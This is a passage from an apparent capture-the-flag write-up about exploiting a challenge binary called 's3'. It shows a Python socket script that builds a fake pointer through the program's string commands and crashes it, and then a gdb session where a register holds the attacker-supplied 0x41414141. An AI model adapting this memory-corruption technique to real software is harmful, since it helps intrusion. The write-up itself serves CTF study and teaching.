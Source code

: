 # send second string. this will be our 'pivot' pointer.
# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' AAAA\n')

data = s.recv(64)
p_pivot = getID(data)

print '[+] second location = 0x{0:08x}'.format(p_pivot)

# send read request to crash binary

s.send('r ' + str(p_pivot) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)

After running this (and careful debugging of the script) I got a coredump:

{% highlight bash)
$ python ./amaz.py
Welcome to Amazon S3 (String Storage Service)

    c <type> <string> - Create the string <string> as <type>
                        Types are:
                            0 - NULL-Terminated String
                            1 - Counted String
    r <id>            - Read the string referenced by <id>
    u <id> <string>   - Update the string referenced by <id> to <string>
    d <id>            - Destroy the string referenced by <id>
    x                 - Exit Amazon S3


[+] first location = 0x00b10030
[+] second location = 0x00b10050
bas@tritonal:~/documents/s3 writeup$ gdb ./s3 core
...snip...
gdb-peda$ i r
rax            0x41414141   0x41414141
{% endhighlight)
